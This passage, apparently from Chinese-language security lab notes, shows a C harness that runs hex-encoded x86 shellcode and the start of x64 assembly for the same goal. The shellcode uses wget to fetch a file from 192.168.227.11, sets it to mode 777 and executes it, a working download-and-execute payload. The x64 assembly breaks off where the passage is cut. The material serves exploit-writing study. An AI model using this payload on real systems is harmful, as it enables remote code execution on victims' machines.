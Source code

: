 

* C语言程序

    	#include<stdio.h>
    	#include<string.h>
    	
    	unsigned char code[] = \
    	"\x31\xc0\xb0\x02\xcd\x80\x31\xdb\x39\xd8\x74\x2a\x31\xc0\xb0\x07\xcd\x80\x31\xc9\x31\xc0\x50\xb0\x0f\x6a\x78\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x31\xc0\x50\x6a\x78\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x6a\x0b\x58\x99\x52\x68\x31\x31\x2f\x78\x68\x32\x32\x37\x2e\x68\x31\x36\x38\x2e\x68\x31\x39\x32\x2e\x89\xe1\x52\x6a\x74\x68\x2f\x77\x67\x65\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";
    	
    	main()
    	{
    		printf("Shellcode Length:  %d\n", strlen(code));
    		int (*ret)() = (int(*)())code;
    		ret();
    	}

* 编译代码

		gcc <进行编译连接的c文件> -o <输出文件名>

### 3、实验三：编写linux x64平台上具有下载和执行功能的shellcode

* 实验环境

	* ubuntu 16.04 x64
	* 远程服务器：192.168.227.11

* 编程思路

	* 效仿linux x86

* 汇编代码

		global _start
	    section .text
	    _start:
	    
	    ;fork
	    xor rax,rax
	    add rax,57
	    syscall
	    
	    xor rdi,rdi
	    xor r12,r12
	     
	    mov r12,rax ;pid
	    cmp rax,rdi
	     
	    jz wget
	    
	    ;wait(NULL)
	    xor r10,r10 ;null
	    xor rdx,rdx ;null
	    mov rsi,r10 ;status
	    mov rdi,r12 ;pid
	     